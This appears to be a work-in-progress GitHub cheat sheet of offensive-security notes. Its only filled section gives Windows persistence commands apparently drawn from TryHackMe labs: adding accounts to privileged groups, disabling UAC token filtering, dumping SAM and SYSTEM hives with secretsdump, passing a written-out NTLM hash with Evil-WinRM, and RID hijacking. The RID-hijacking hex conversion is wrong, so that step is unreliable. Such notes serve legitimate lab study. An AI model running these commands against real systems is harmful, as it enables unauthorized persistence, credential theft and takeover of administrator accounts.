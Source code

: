 > [!Note]
> Heavy work in progress

<p align="center"><img alt="" src="" width="300" /></p>

*<p align="center">A curated list of steps/processes to use when tackling a certain problem.</p>*

When dealing with a certain challenge, you have to come up with a plan to come up with a solution. But you are not the first one to have dealt with this. So here I present a list of processes I have used that could help me and others finding the right programs/commands that they need.

<p align="center"><img alt="Need a better meme here.." src="https://github.com/Kevinovitz/cyber-security-megathread/raw/main/images/Cyber_Meme_07.png" width="300" /></p>

----

### Subjects

- [Knowledge Bases](#knowledge-bases)
- [Cheatsheets](#cheatsheets)
- [Tools Top Tips](#tools-top-tips)
- [Active Directory](#active-directory)
- [Command Injection](3command-injection)
- [Domain Enumeration](#domain-enumeration)
- [Hashes](#hashes)
- [Lateral Movement - Pass the Hash](#lateral-movement---pass-the-hash)
- [Misc](#misc)
- [Persistence](#persistence)
- [Windows Defender Anti-Virus](#windows-defender-anti-virus)
- [XSS - Cross Site Scripting](#xss---cross-site-scripting)

<br>

## Knowledge Bases

🔰 Name | ℹ️ Description | 🔗 Link
-- | -- | --
**** |  | 

<br>

## Persistence

### Linux

### Windows

#### **Tampering With Unprivileged Accounts**
	
##### *Assign Group Memberships*
	
- Make user part of Administrators group.

```cmd
net localgroup "Administrators" thmuser1 /add
```

- If thats to suspicious, add to Backup Operators group and Remote Management for RDP.

```cmd
net localgroup "Backup Operators" thmuser1 /add
net localgroup "Remote Management Users" thmuser1 /add
```

- Disable UAC privilige stripping for remote users.

```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

- Remote into the machine (RDP or Evil-WinRM)

```console
evil-winrm -i MACHINE_IP -u thmuser1 -p Password321
```

- Export and download SAM and SYSTEM registry hives.

```console
reg save hklm\system system.bak
reg save hklm\sam sam.bak

download system.bak
download sam.bak
```

- Dump hashes from SAM and SYSTEM hives.

```console
python /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

- Pass the hash with admin account.

```console
evil-winrm -i 10.10.112.47 -u Administrator -H f3118544a831e728781d780cfdb9c1fa
```

##### *Special Privileges and Security Descriptors*

- Add `SeBackupPrivilege` and `SeRestorePrivilege` to an account.

```cmd
secedit /export /cfg config.ini
secedit /import /cfg config.ini /db config.db
secedit /configure /db config.db /cfg config.ini
```

- Change WinRM security descriptor and add user here with full control.

```powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

- Disable UAC privilige stripping for remote users.

```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

##### *RID Hijacking*

- Find RIDs of user and admin user.

```cmd
wmic useraccount get name,sid
```

- Open regedit with privileges (tool must be present on target system).

```cmd
PsExec.exe -i -s regedit
```

- Find users here in the registry: `HKLM\SAM\SAM\Domains\Account\Users\` .

- Convert (admin) RID to hex value (i.e., 1010 = 0x1F4) and change F variable within the correct user key with the RID of the admin account (little endian notation = 04F1 -> F4 01).

- Admin hex RID ussualy is F4 01, put this on line 0030 of the F variable.

<!--- 

## TITLE

### Usefull documentation

🔰 Name | ℹ️ Description | 🔗 Link
-- | -- | --
**** |  | 

### Related tools

🔰 Name | ℹ️ Description | 🔗 Link
-- | -- | --
**** |  | 

<br>

--->
